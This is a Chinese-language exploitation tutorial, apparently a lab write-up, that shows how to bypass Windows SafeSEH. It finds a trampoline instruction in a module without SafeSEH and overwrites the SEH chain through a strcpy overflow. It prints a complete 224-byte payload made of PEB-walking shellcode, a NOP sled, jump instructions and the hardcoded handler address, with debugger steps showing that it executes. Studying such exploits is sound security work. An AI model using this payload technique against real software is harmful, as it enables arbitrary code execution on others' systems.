 运行*.exe, OllyDbg自动附加调试, 可以看到所有模块都不是SafeSEH OFF状态
![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x013-001.png)

利用OllyFindAddr工具搜索跳板指令
![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x013-002.png)

在0x00280b0b找到一条call [ebp+0x30]指令
![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x013-003.png)

继续单步下去完成strcpy
![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x013-004.png)

shellcode的起始栈地址0x0012fe88
![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x013-005.png)

最近的一个SE Handler 0x0012ff64
![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x013-006.png)

组织224 byte的shellcode
```
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"		# shellcode
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"		# 208 byte
"\xe9\x2b\xff\xff\xff\x90\x90\x90"		# jmp -213(208+5)
"\xeb\xf6\x90\x90"		# jmp -10(8+2)
"\x0b\x0b\x28\x00"		# 0x00280b0b call [ebp+0x30], 最后的"\x00"截断不能将shellcode布置在下
```

再来调试过一遍, 当出现除0异常
![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x013-007.png)

程序找到最近的S.E.H结构, 调用Handler, 这里已经覆盖成跳板call [ebp+0x30]
![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x013-008.png)

当无法处理异常, 顺着S.E.H chain找到下一个S.E.H结构, 这里覆盖成短跳jmp -10
![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x013-009.png)

再来一个长跳jmp -213, 直接跳到shellcode
![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x013-010.png)
